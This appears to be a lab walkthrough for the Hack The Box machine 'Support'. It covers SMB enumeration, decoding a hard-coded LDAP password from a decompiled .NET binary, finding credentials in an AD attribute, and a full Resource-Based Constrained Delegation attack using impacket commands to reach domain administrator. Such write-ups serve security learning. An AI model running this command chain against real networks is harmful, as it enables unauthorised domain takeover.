# Enumeration

## Nmap


windows box, has open 445 indicating smb

list smb shares using smbclient
`smbclient --list=support.htb --no-pass`


we've got 6 shares, support-tools looks interesting
trying netexec with 'anonymous' user
`nxc smb support.htb -u 'anonymous' -p '' --shares`


guest has read rights to support-tools (\$IPC is a default for Inter Proces Communication by using RPC (Remote Procedure Call))

## Foothold

looking at support-tools via smb client:
`smbclient //support.htb/support-tools -U anonymous -p ''`


UserInfo.exe.zip looks interesting, download using smbclient

Unzip locally gives a bunch of files and a config doc

<figure>

<figcaption
aria-hidden="true">Pastedimage20250318095235.png</figcaption>
</figure>

The config doc is an xml, holding .Unsafe Token

Furthermore, the UserInfo.exe looks interesting - decompile using ghidra and look for passwords..

## Reverse engineering

Its a .NET executable Ghidra does not work
this page has an intro to .NET decompiling
https://medium.com/@tr15t4n/intro-to-net-reverse-engineering-c54823b22d6f

Installed ILspy (see
https://github.com/icsharpcode/ILSpy
https://github.com/icsharpcode/AvaloniaILSpy/releases/tag/v7.2-rc
and
https://youtu.be/FLyrOl0Uy0E?si=3NVWxkagPKbx52a2

Poking around in the UserInfo function:

Reveals that the function hits an LDAP endpoint as user ldap

it also reveals an encoded password:
0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E
and a sneaky function to encode it

``` c#
internal class Protected
{
    private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";

    private static byte[] key = Encoding.ASCII.GetBytes("armando");

    public static string getPassword()
    {
        byte[] array = Convert.FromBase64String(enc_password);
        byte[] array2 = array;
        for (int i = 0; i < array.Length; i++)
        {
            array2[i] = (byte)((uint)(array[i] ^ key[i % key.Length]) ^ 0xDFu);
        }
        return Encoding.Default.GetString(array2);
    }
}
```

Threw it at chatGPT and got

##### You said:

it uses this function to encode it, what is the output given the input from above? internal class Protected { private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"; private static byte\[\] key = Encoding.ASCII.GetBytes("armando"); public static string getPassword() { byte\[\] array = Convert.FromBase64String(enc_password); byte\[\] array2 = array; for (int i = 0; i \< array.Length; i++) { array2\[i\] = (byte)((uint)(array\[i\] \^ key\[i % key.Length\]) \^ 0xDFu); } return Encoding.Default.GetString(array2); } }

###### ChatGPT said:

The `getPassword` function decodes the Base64-encoded string, then performs a bitwise XOR operation on each byte with a cyclic key (`"armando"`) and an additional XOR with `0xDF`. Let's compute the output.

The output of `getPassword()` given the provided input is:

**`nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`**

We now have a password for the ldap user
Throwing it into netexec:

reveals a bunch of users

## Privilege Escalation

unleashing bloodhound
`bloodhound-python -d support.htb -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'  -ns 10.10.11.174`

### Note, mis-configuration: the info field in AD is used to contain a passwork!

ldapsearch for support@support.htb, looking at the info property
`ldapsearch -H ldap://10.10.11.174 -D ldap@support.htb -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" "*" | grep info`

gives a credential for the 'support user' : Ironside47pleasure40Watchful


Throwing that into netexec
`nxc ldap support.htb -u 'support' -p 'Ironside47pleasure40Watchful'`

Yep! it works
\### Poking around
using evil-winrm
`evil-winrm -i support.htb  -u 'support' -p 'Ironside47pleasure40Watchful'`

user flag on supports desktiop
\## Privilege Escalalation

bloodhound
`bloodhound-python -d support.htb -u support -p Ironside47pleasure40Watchful -ns 10.10.11.174 -c All`


Giving genericAll on DC.SUPPORT.HTB


Generic-all allows us to create a user on the DC.SUPPORT.HTB controller box.
Bloodhound suggests a Resource-Based Constrained Delegation (RBCD) attack

### Step 1 add a fake computer

`impacket-addcomputer -dc-ip support.htb -computer-name badcomputer -computer-pass 'BadPass!' 'support.htb/support:Ironside47pleasure40Watchful'`
Added a badcomputer with password BadPass! (adhere to pw complexity)

Run bloodhound data acquisition again and it shows up..

<figure>

<figcaption
aria-hidden="true">Pastedimage20250503133840.png</figcaption>
</figure>

And we can write to it from the Support user:

<figure>

<figcaption
aria-hidden="true">Pastedimage20250503134131.png</figcaption>
</figure>

### Step 2: Delegate badcomputer to DC:

Make it possible for the badcomputer to delegate to the DC.SUPPORT computer, using impacket rbcd script

`impacket-rbcd -delegate-from 'BADCOMPUTER$' -delegate-to 'DC$' -action 'write' 'support.htb/support:Ironside47pleasure40Watchful'`

<figure>

<figcaption
aria-hidden="true">Pastedimage20250503140300.png</figcaption>
</figure>

### Step 3: Cook up a service ticket

<figure>

<figcaption
aria-hidden="true">Pastedimage20250503140456.png</figcaption>
</figure>

`impacket-getST  -spn 'cifs/DC.SUPPORT.HTB' -impersonate 'administrator' 'support.htb/badcomputer$:BadPass!'`

#### export the ccache

`export KRB5CCNAME=administrator@cifs_DC.SUPPORT.HTB@SUPPORT.HTB.ccache`
MITRE: steal Kerberos tickets stored in credential cache files (or ccache). These files are used for short term storage of a user's active session credentials. The ccache file is created upon user authentication and allows for access to multiple services without the user having to re-enter credentials.
https://attack.mitre.org/techniques/T1558/005/

### Setp 5 Pass the ticket

and pass the ticket using psexec:
`impacket-psexec -k -no-pass support.htb/administrator@dc.support.htb -dc-ip 10.10.11.174`


Notes!
time must be synced with the box (Kerberos uses timestamp as sort of a nonce in the keys), sync using `ntpdate support.htb`
dc.support.htb must be added to /etc/hosts or else the psexec does not work

flag on the desktop


# Refefrences

## Articles on Rubeus (alternative use here) and Kerberos hacking

https://www.hackingarticles.in/a-detailed-guide-on-rubeus/
Kerberos explainer
https://www.youtube.com/watch?v=5N242XcKAsM

## RBCD Attack

https://n1chr0x.medium.com/kerberos-takedown-unleashing-rubeus-and-impacket-for-active-directory-domination-58eeb7b6b6e3
